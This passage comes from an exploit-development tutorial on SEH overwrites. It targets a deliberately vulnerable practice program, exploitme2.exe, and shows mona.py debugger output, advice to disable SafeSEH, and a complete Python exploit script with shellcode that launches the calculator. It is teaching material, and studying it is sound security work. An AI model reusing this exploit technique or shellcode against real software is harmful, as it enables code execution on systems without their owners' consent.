"\x33\xc0\x5f\x5e\x5b\x8b\xe5\x5d\xc3\x8b\x4d\xfc\x8b\x44\x33\x24"+
"\x8d\x04\x48\x0f\xb7\x0c\x30\x8b\x44\x33\x1c\x8d\x04\x88\x8b\x04"+
"\x30\x03\xc6\xeb\xdd")
data = 'a'*84 + jmp + handler + shellcode
f.write(data + 'c' * (10000 - len(data)))
If you debug exploitme2.exe in WinDbg you’ll see that there’s something wrong. It seems that our handler (pop/pop/ret) is not called. Why?
Let’s have a look at the loaded modules:
0:000> !py mona modules
Hold on...
[+] Command used:
!py mona.py modules
---------- Mona command started on 2015-03-19 00:31:14 (v2.0, rev 554) ----------
[+] Processing arguments and criteria
- Pointer access level : X
[+] Generating module info table, hang on...
- Processing modules
- Done. Let's rock 'n roll.
----------------------------------------------------------------------------------------------------------------------------------
Module info :
----------------------------------------------------------------------------------------------------------------------------------
Base | Top | Size | Rebase | SafeSEH | ASLR | NXCompat | OS Dll | Version, Modulename & Path
----------------------------------------------------------------------------------------------------------------------------------
0x774b0000 | 0x774ba000 | 0x0000a000 | False | True | True | True | True | 6.1.7601.18768 [LPK.dll] (C:\Windows\syswow64\LPK.dll)
0x00190000 | 0x00196000 | 0x00006000 | False | True | True | False | False | -1.0- [exploitme2.exe] (exploitme2.exe)
0x752d0000 | 0x7532a000 | 0x0005a000 | False | True | True | True | True | 8.0.0.4344 [guard32.dll] (C:\Windows\SysWOW64\guard32.dll)
0x764c0000 | 0x7658c000 | 0x000cc000 | False | True | True | True | True | 6.1.7601.18731 [MSCTF.dll] (C:\Windows\syswow64\MSCTF.dll)
0x76360000 | 0x763a7000 | 0x00047000 | False | True | True | True | True | 6.1.7601.18409 [KERNELBASE.dll] (C:\Windows\syswow64\KERNELBASE.dll)
0x752c0000 | 0x752c9000 | 0x00009000 | False | True | True | True | True | 6.1.7600.16385 [VERSION.dll] (C:\Windows\SysWOW64\VERSION.dll)
0x752b0000 | 0x752b7000 | 0x00007000 | False | True | True | True | True | 6.1.7600.16385 [fltlib.dll] (C:\Windows\SysWOW64\fltlib.dll)
0x758c0000 | 0x7595d000 | 0x0009d000 | False | True | True | True | True | 1.626.7601.18454 [USP10.dll] (C:\Windows\syswow64\USP10.dll)
0x75b50000 | 0x75be0000 | 0x00090000 | False | True | True | True | True | 6.1.7601.18577 [GDI32.dll] (C:\Windows\syswow64\GDI32.dll)
0x75dc0000 | 0x75ed0000 | 0x00110000 | False | True | True | True | True | 6.1.7601.18409 [kernel32.dll] (C:\Windows\syswow64\kernel32.dll)
0x75960000 | 0x75a0c000 | 0x000ac000 | False | True | True | True | True | 7.0.7601.17744 [msvcrt.dll] (C:\Windows\syswow64\msvcrt.dll)
0x75550000 | 0x7555c000 | 0x0000c000 | False | True | True | True | True | 6.1.7600.16385 [CRYPTBASE.dll] (C:\Windows\syswow64\CRYPTBASE.dll)
0x75560000 | 0x755c0000 | 0x00060000 | False | True | True | True | True | 6.1.7601.18779 [SspiCli.dll] (C:\Windows\syswow64\SspiCli.dll)
0x77bd0000 | 0x77d50000 | 0x00180000 | False | True | True | True | True | 6.1.7601.18247 [ntdll.dll] (ntdll.dll)
0x75ed0000 | 0x75f70000 | 0x000a0000 | False | True | True | True | True | 6.1.7601.18247 [ADVAPI32.dll] (C:\Windows\syswow64\ADVAPI32.dll)
0x77660000 | 0x77750000 | 0x000f0000 | False | True | True | True | True | 6.1.7601.18532 [RPCRT4.dll] (C:\Windows\syswow64\RPCRT4.dll)
0x6d510000 | 0x6d5fe000 | 0x000ee000 | False | True | True | True | True | 12.0.21005.1 [MSVCR120.dll] (C:\Windows\SysWOW64\MSVCR120.dll)
0x764a0000 | 0x764b9000 | 0x00019000 | False | True | True | True | True | 6.1.7600.16385 [sechost.dll] (C:\Windows\SysWOW64\sechost.dll)
0x75ab0000 | 0x75ab5000 | 0x00005000 | False | True | True | True | True | 6.1.7600.16385 [PSAPI.DLL] (C:\Windows\syswow64\PSAPI.DLL)
0x761c0000 | 0x762c0000 | 0x00100000 | False | True | True | True | True | 6.1.7601.17514 [USER32.dll] (C:\Windows\syswow64\USER32.dll)
0x762f0000 | 0x76350000 | 0x00060000 | False | True | True | True | True | 6.1.7601.17514 [IMM32.DLL] (C:\Windows\SysWOW64\IMM32.DLL)
----------------------------------------------------------------------------------------------------------------------------------
[+] This mona.py action took 0:00:00.110000Here we can see that all the loaded modules have SafeSEH = True. This is bad news for us. If a module is compiled with SafeSEH, then it contains a list of the allowed SEH handlers and any handler whose address is contained in that module but not in the list is ignored.
The address 0x75dfd75d is in the module kernel32.dll but not in the list of its allowed handlers so we can’t use it. The common solution is to choose a module with SafeSEH = False, but in our case all the modules were compiled with SafeSEH enabled.
Since we’re just learning to walk here, let’s recompile exploitme2.exe without SafeSEH by changing the configuration in VS 2013 as follows:
- Configuration Properties
- Linker
- Advanced
- Image Has Safe Exception Handlers: No (/SAFESEH:NO)
- Advanced
- Linker
Now let’s find a pop/pop/ret sequence inside exploitme2.exe:
0:000> !py mona findwild -s "pop r32#pop r32#ret" -m exploitme2.exe
Hold on...
[+] Command used:
!py mona.py findwild -s pop r32#pop r32#ret -m exploitme2.exe
---------- Mona command started on 2015-03-19 00:53:54 (v2.0, rev 554) ----------
[+] Processing arguments and criteria
- Pointer access level : X
- Only querying modules exploitme2.exe
[+] Type of search: str
[+] Searching for matches up to 8 instructions deep
[+] Generating module info table, hang on...
- Processing modules
- Done. Let's rock 'n roll.
[+] Started search (8 start patterns)
[+] Searching startpattern between 0x00e90000 and 0x00e96000
[+] Preparing output file 'findwild.txt'
- (Re)setting logfile findwild.txt
[+] Writing results to findwild.txt
- Number of pointers of type 'pop eax # pop esi # retn' : 1
- Number of pointers of type 'pop ecx # pop ecx # retn' : 1
- Number of pointers of type 'pop edi # pop esi # retn' : 2
- Number of pointers of type 'pop ecx # pop ebp # retn' : 1
- Number of pointers of type 'pop ebx # pop ebp # retn' : 1
[+] Results :
0x00e91802 | 0x00e91802 (b+0x00001802) : pop eax # pop esi # retn | startnull {PAGE_EXECUTE_READ} [exploitme2.exe] ASLR: True, Rebase: False, SafeSEH: False, OS: False, v-1.0- (exploitme2.exe)
0x00e9152f | 0x00e9152f (b+0x0000152f) : pop ecx # pop ecx # retn | startnull {PAGE_EXECUTE_READ} [exploitme2.exe] ASLR: True, Rebase: False, SafeSEH: False, OS: False, v-1.0- (exploitme2.exe)
0x00e918e7 | 0x00e918e7 (b+0x000018e7) : pop edi # pop esi # retn | startnull {PAGE_EXECUTE_READ} [exploitme2.exe] ASLR: True, Rebase: False, SafeSEH: False, OS: False, v-1.0- (exploitme2.exe)
0x00e91907 | 0x00e91907 (b+0x00001907) : pop edi # pop esi # retn | startnull {PAGE_EXECUTE_READ} [exploitme2.exe] ASLR: True, Rebase: False, SafeSEH: False, OS: False, v-1.0- (exploitme2.exe)
0x00e9112b | 0x00e9112b (b+0x0000112b) : pop ecx # pop ebp # retn | startnull {PAGE_EXECUTE_READ} [exploitme2.exe] ASLR: True, Rebase: False, SafeSEH: False, OS: False, v-1.0- (exploitme2.exe)
0x00e91630 | 0x00e91630 (b+0x00001630) : pop ebx # pop ebp # retn | startnull {PAGE_EXECUTE_READ} [exploitme2.exe] ASLR: True, Rebase: False, SafeSEH: False, OS: False, v-1.0- (exploitme2.exe)
Found a total of 6 pointers
[+] This mona.py action took 0:00:00.170000We’ll use the first address: 0x00e91802.
Here’s the updated Python script:
with open('c:\\name.dat', 'wb') as f:
jmp = '\xeb\x06\x90\x90'
handler = '\x02\x18\xe9\x00'
shellcode = ("\xe8\xff\xff\xff\xff\xc0\x5f\xb9\x11\x03\x02\x02\x81\xf1\x02\x02"+
"\x02\x02\x83\xc7\x1d\x33\xf6\xfc\x8a\x07\x3c\x02\x0f\x44\xc6\xaa"+
"\xe2\xf6\x55\x8b\xec\x83\xec\x0c\x56\x57\xb9\x7f\xc0\xb4\x7b\xe8"+
"\x55\x02\x02\x02\xb9\xe0\x53\x31\x4b\x8b\xf8\xe8\x49\x02\x02\x02"+
"\x8b\xf0\xc7\x45\xf4\x63\x61\x6c\x63\x6a\x05\x8d\x45\xf4\xc7\x45"+
"\xf8\x2e\x65\x78\x65\x50\xc6\x45\xfc\x02\xff\xd7\x6a\x02\xff\xd6"+
"\x5f\x33\xc0\x5e\x8b\xe5\x5d\xc3\x33\xd2\xeb\x10\xc1\xca\x0d\x3c"+
"\x61\x0f\xbe\xc0\x7c\x03\x83\xe8\x20\x03\xd0\x41\x8a\x01\x84\xc0"+
"\x75\xea\x8b\xc2\xc3\x8d\x41\xf8\xc3\x55\x8b\xec\x83\xec\x14\x53"+
"\x56\x57\x89\x4d\xf4\x64\xa1\x30\x02\x02\x02\x89\x45\xfc\x8b\x45"+
"\xfc\x8b\x40\x0c\x8b\x40\x14\x8b\xf8\x89\x45\xec\x8b\xcf\xe8\xd2"+
"\xff\xff\xff\x8b\x3f\x8b\x70\x18\x85\xf6\x74\x4f\x8b\x46\x3c\x8b"+
"\x5c\x30\x78\x85\xdb\x74\x44\x8b\x4c\x33\x0c\x03\xce\xe8\x96\xff"+
"\xff\xff\x8b\x4c\x33\x20\x89\x45\xf8\x03\xce\x33\xc0\x89\x4d\xf0"+
"\x89\x45\xfc\x39\x44\x33\x18\x76\x22\x8b\x0c\x81\x03\xce\xe8\x75"+
"\xff\xff\xff\x03\x45\xf8\x39\x45\xf4\x74\x1e\x8b\x45\xfc\x8b\x4d"+
"\xf0\x40\x89\x45\xfc\x3b\x44\x33\x18\x72\xde\x3b\x7d\xec\x75\x9c"+
"\x33\xc0\x5f\x5e\x5b\x8b\xe5\x5d\xc3\x8b\x4d\xfc\x8b\x44\x33\x24"+
"\x8d\x04\x48\x0f\xb7\x0c\x30\x8b\x44\x33\x1c\x8d\x04\x88\x8b\x04"+
"\x30\x03\xc6\xeb\xdd")
data = 'a'*84 + jmp + handler + shellcode
f.write(data + 'c' * (10000 - len(data)))
Run the script and open exploitme2.exe (the version without SafeSEH) in WinDbg. Now, as we expected, the calculator pops up! We did it, but we cheated a little bit. Also we’re pretending there’s no ASLR (for now).
Troubleshooting
If the exploit doesn’t work on your system, it might be because of limited space on the stack. Read the article More space on the stack.